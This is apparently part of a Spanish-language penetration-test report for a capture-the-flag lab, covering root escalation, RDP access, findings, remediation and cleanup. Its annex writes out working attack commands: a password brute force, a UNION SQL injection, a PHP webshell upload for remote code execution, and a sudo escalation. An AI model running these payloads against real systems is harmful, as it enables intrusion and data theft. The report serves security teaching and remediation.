

**Impacto:** cualquier usuario local podía obtener la contraseña de `sentinel` y conocer la ruta y el contenido de la flag root. El script también reveló las reglas `sudo`, la configuración de SSH y la configuración de Apache.

**Hallazgo adicional:** el daemon eliminaba periódicamente herramientas de enumeración (`linpeas`, `linenum`, `pspy`, `chkrootkit`, `linux-exploit-suggester`) mediante `pkill -9`, lo que dificulta la enumeración local y constituye una medida de evasión defensiva.

**Remediación:** no incluir secretos en binarios ni scripts; usar un gestor de secretos; restringir permisos del binario a `750` o menos; eliminar el script de inicialización del artefacto distribuido; rotar todas las credenciales.

### 5.4 Escalada a root (F-06)

La regla `sentinel ALL=(ALL:ALL) ALL` permitía ejecutar cualquier comando como root. Con la contraseña obtenida del binario:

```bash
sudo -u sentinel /usr/bin/python3 -c \
  'import os; os.system("echo REDACTED | sudo -S id; echo REDACTED | sudo -S cat /root/flag.txt")'
```

**Resultado:**

```text
uid=0(root) gid=0(root) groups=0(root)
RECON{REDACTED}
```



**Flag root:** `RECON{REDACTED}`.

La flag se validó en la plataforma del laboratorio:



### 5.5 Acceso RDP con sentinel (F-07)

El servicio xrdp permitía autenticación con usuarios del sistema. Aunque SSH denegaba explícitamente a `sentinel` mediante `DenyUsers sentinel`, RDP no aplicaba esa restricción:

```bash
rdesktop -u sentinel -p 'REDACTED' 172.17.0.2
```

La sesión se estableció correctamente y el proceso `Xorg` se ejecutó como `sentinel`; en la enumeración de procesos aparece `sentinel xrdp-chansrv`. Esto demuestra una **inconsistencia en los controles de acceso** entre SSH y RDP.

**Impacto:** acceso interactivo al escritorio con una contraseña conocida, con posibilidad de movimiento lateral y de ejecución de herramientas gráficas.

**Remediación:** restringir RDP a la red de gestión o a un bastión con MFA; deshabilitar RDP si no es necesario; aplicar las mismas restricciones de usuarios que en SSH; monitorizar inicios de sesión.

---

## 6. Cadena de ataque

```text
                    ┌──────────────────────────────────────────────┐
                    │             172.17.0.2                       │
                    │                                              │
  [Atacante] ──────▶│ 80/tcp  Apache 2.4.68 + ORION                │
                    │   │                                          │
                    │   ├─ voss:REDACTED (F-01)                    │
                    │   ├─ SQLi inventory.php (F-02)               │
                    │   └─ upload transfer.php (F-03)              │
                    │          │                                   │
                    │          ▼                                   │
                    │   RCE www-data                               │
                    │          │                                   │
                    │          ├─ sudo -u sentinel python3 (F-04)  │
                    │          ▼                                   │
                    │   sentinel (uid 1000)                        │
                    │          │                                   │
                    │          ├─ /sbin/sys-daemon base64 (F-05)   │
                    │          │   ├─ sentinel:REDACTED            │
                    │          │   └─ sentinel ALL=(ALL:ALL) ALL   │
                    │          ▼                                   │
                    │   root (uid 0) ──▶ /root/flag.txt            │
                    │                                              │
                    └──────────────────────────────────────────────┘
```

**Resumen de la cadena:**

1. Reconocimiento de servicios y aplicación web.
2. Credenciales débiles → acceso autenticado.
3. SQLi → divulgación de credenciales y estructura de la base.
4. Upload sin restricciones → RCE como `www-data`.
5. Regla sudo → pivot a `sentinel`.
6. Secretos en binario world-readable → contraseña de `sentinel` y reglas sudo.
7. `sentinel` con `sudo ALL` → root y lectura de la flag.

---

## 7. Hallazgos y severidad

| ID | Hallazgo | Severidad | CVSS aprox. | Evidencia |
|---|---|---|---|---|
| F-01 | Credenciales débiles en el portal ORION (`voss:REDACTED`) | Alta | 9.1 | `screenshots/05`, `06` |
| F-02 | Inyección SQL en `inventory.php` | Alta | 8.1 | `screenshots/07` |
| F-03 | Carga de archivos sin restricciones → RCE | Crítica | 9.9 | `screenshots/08` |
| F-04 | Regla sudo `NOPASSWD` de `www-data` a `sentinel` | Alta | 7.8 | `screenshots/09` |
| F-05 | Secretos embebidos en `/sbin/sys-daemon` world-readable | Crítica | 8.8 | `screenshots/11` |
| F-06 | `sentinel` con `sudo ALL` | Crítica | 9.8 | `screenshots/12` |
| F-07 | RDP expuesto y autenticación de `sentinel` | Media | 6.5 | `screenshots/10` |
| F-08 | Listado de directorios en `/uploads/` y `/assets/` | Baja | 5.3 | `screenshots/13` |
| F-09 | Divulgación de versiones y `server-status` | Baja | 5.3 | `screenshots/13` |
| F-10 | SSH con autenticación por contraseña | Media | 5.9 | `screenshots/02` |
| F-11 | Archivos del web root world-writable (`666`) | Media | 6.5 | Entorno de auditoría |

**Distribución:** 3 críticas (F-03, F-05, F-06), 3 altas (F-01, F-02, F-04), 3 medias (F-07, F-10, F-11) y 2 bajas (F-08, F-09).

> Los valores CVSS son aproximados y se incluyen como referencia de priorización; no sustituyen una evaluación formal del riesgo del entorno real.

---

## 8. Impacto

El compromiso permite:

- **Confidencialidad:** lectura de la flag root, credenciales de operadores, configuración de la aplicación, base de datos `orion_intel` y del inventario de nodos `10.7.1.0/24`.
- **Integridad:** modificación de la aplicación web, de los archivos del web root y del sistema; creación de cuentas o persistencia.
- **Disponibilidad:** detención de servicios, borrado de datos o bloqueo de la aplicación.
- **Movimiento lateral:** el inventario enumera ocho nodos internos (`10.7.1.10` a `10.7.1.80`); el acceso root al host auditado podría utilizarse como pivote hacia esa red.

---

## 9. Recomendaciones

### 9.1 Inmediatas

1. **Rotar credenciales** de `voss`, `sentinel`, `orion_ro` y cualquier secreto embebido.
2. **Eliminar** `/var/www/html/uploads/orion.php`, `/var/www/html/uploads/shell.php` y cualquier otro artefacto cargado.
3. **Eliminar** la regla `www-data ALL=(sentinel) NOPASSWD: /usr/bin/python3`.
4. **Eliminar** la regla `sentinel ALL=(ALL:ALL) ALL`; sustituirla por comandos específicos si es imprescindible.
5. **Restringir** `/sbin/sys-daemon` a `root:root 750` y retirar el script de inicialización del binario.
6. **Deshabilitar RDP** o restringirlo a la red de gestión con MFA.

### 9.2 Corto plazo

1. **Corregir la SQLi** de `inventory.php` con consultas preparadas y validación de entrada.
2. **Endurecer la carga de archivos:** lista blanca de extensiones/MIME, nombres aleatorios, almacenamiento fuera del web root, `php_admin_flag engine off` en `/uploads/`.
3. **Política de contraseñas** robusta, MFA y bloqueo por intentos fallidos.
4. **Deshabilitar el listado de directorios** (`Options -Indexes`).
5. **Restringir `/server-status`** a `localhost`.
6. **Revisar permisos** del web root (`644`/`755`), evitando archivos `666`.
7. **Deshabilitar `PasswordAuthentication`** en SSH o limitarlo a usuarios y redes concretas; no usar `DenyUsers` como único control.

### 9.3 Medio plazo

1. **Gestión de secretos** (Vault, variables de entorno protegidas, `systemd` credentials); prohibir secretos en binarios, scripts o imágenes.
2. **Principio de mínimo privilegio** en `sudo`, servicios y cuentas de aplicación.
3. **Monitorización y alertas** de autenticaciones fallidas, cargas de archivos, ejecución de comandos y cambios en `sudoers`.
4. **Revisión de código** (SAST/DAST) y pruebas de regresión de seguridad.
5. **Hardening de Apache, PHP, MariaDB, SSH y xrdp** según CIS Benchmarks.
6. **Segmentación de red** y restricción de los servicios de administración (SSH/RDP) a un bastión.

---

## 10. Evidencias

Las capturas redactadas están en `screenshots/`.

| Captura | Descripción |
|---|---|
| `01-nmap-allports.png` | Descubrimiento de puertos TCP: 22, 80 y 3389. |
| `02-nmap-services.png` | Fingerprinting: OpenSSH 9.2p1, Apache 2.4.68, RDP. |
| `03-web-fingerprint.png` | Cabeceras HTTP y huella del portal ORION. |
| `04-gobuster.png` | Enumeración de contenido: `access.php`, `command.php`, `inventory.php`, `transfer.php`, `uploads/`, `assets/`. |
| `05-hydra-credentials.png` | Credenciales débiles `voss:REDACTED`. |
| `06-login-command.png` | Login exitoso y acceso al Command Deck. |
| `07-sqli-union.png` | Inyección SQL UNION y extracción de la tabla `operators`. |
| `08-upload-rce.png` | Carga del webshell y RCE como `www-data`. |
| `09-sudo-pivot.png` | Regla `sudo NOPASSWD` de `www-data` a `sentinel`. |
| `10-local-services.png` | Procesos y puertos locales; PID 1 `sys-daemon`, MariaDB, Apache, xrdp. |
| `11-sysdaemon-secrets.png` | Secretos embebidos en `/sbin/sys-daemon`. |
| `12-root-flag.png` | Escalada a root y lectura de `/root/flag.txt`. |
| `13-web-misconfig.png` | Listado de directorios en `/uploads/` y respuesta `403` de `/server-status`. |
| `14-validacion-bandera.png` | Validación de la flag en la plataforma del laboratorio. |

### 10.1 Volcados de texto

Los volcados completos de las herramientas (`nmap`, `gobuster`, `hydra`, SQLi, enumeración local y script de `sys-daemon`) se conservan en el entorno de la auditoría y no se publican en esta versión por contener datos sensibles. En este repositorio se incluyen únicamente el informe y las capturas redactadas.

---

## 11. Anexo: comandos principales

```bash
# Reconocimiento
nmap -p- --min-rate 2000 -T4 172.17.0.2 -oN scans/allports.txt
nmap -sV -sC -p22,80,3389 -Pn 172.17.0.2 -oN scans/services.txt
whatweb -a 3 http://172.17.0.2/
gobuster dir -u http://172.17.0.2 \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,txt,html,bak,zip -t 50 --timeout 10s -q

# Acceso inicial
hydra -l voss -P wordlists/pass1k.txt -t 8 -f -I 172.17.0.2 \
  http-post-form "/access.php:username=^USER^&password=^PASS^:F=Authentication failed"
curl -sS -i -c /tmp/recon.cookies \
  -d 'username=voss&password=REDACTED' http://172.17.0.2/access.php

# SQL injection
curl -sS -b /tmp/recon.cookies --get \
  --data-urlencode "search=10.7.1.10%' UNION SELECT 1,username,password,role FROM operators-- -" \
  http://172.17.0.2/inventory.php

# Upload y RCE
cat > /tmp/orion.php <<'EOF'
<?php system($_GET["cmd"]); ?>
EOF
curl -sS -b /tmp/recon.cookies \
  -F 'package=@/tmp/orion.php;filename=orion.php' \
  http://172.17.0.2/transfer.php
curl -sS 'http://172.17.0.2/uploads/orion.php?cmd=id'

# Post-explotación
curl -sS --get --data-urlencode "cmd=id; sudo -l" \
  http://172.17.0.2/uploads/orion.php
curl -sS --get --data-urlencode \
  "cmd=strings /sbin/sys-daemon | grep -E '^[A-Za-z0-9+/=]{200,}$' | base64 -d" \
  http://172.17.0.2/uploads/orion.php

# Escalada
sudo -u sentinel /usr/bin/python3 -c \
  'import os; os.system("echo REDACTED | sudo -S id; echo REDACTED | sudo -S cat /root/flag.txt")'
```

---

## 12. Anexo: línea temporal

| Paso | Acción |
|---|---|
| 01 | Escaneo completo TCP: 22, 80, 3389. |
| 02 | Fingerprinting y enumeración web. |
| 03 | Escaneos repetidos; sin puertos dinámicos. |
| 04 | Ataque de diccionario: `voss:REDACTED`. |
| 05 | Login, inventario y canal de transferencia. |
| 06 | Carga de webshell y RCE como `www-data`; `sudo -l`. |
| 07 | Decodificación de `sys-daemon`; escalada a root; flag. |
| 08 | Verificación de acceso RDP con `sentinel`. |
| 09 | Captura de evidencias y documentación. |
| 10 | Limpieza de los webshells y cierre de la sesión RDP. |
| 11 | Validación de la flag en la plataforma del laboratorio. |

---

## 13. Anexo: limpieza

Al finalizar la auditoría se eliminaron los dos webshells cargados y el script de enumeración temporal:

```bash
rm -f /var/www/html/uploads/orion.php /var/www/html/uploads/shell.php /tmp/rootcheck.sh
```

Se verificó que `/uploads/orion.php` y `/uploads/shell.php` devolvían `404`, y se cerró la sesión RDP de prueba. No se realizaron cambios persistentes adicionales en el host.

---

*Informe generado para el laboratorio RECON de Whoami-Labs. Las capturas y los volcados de texto se conservan en el directorio del proyecto para su revisión.*
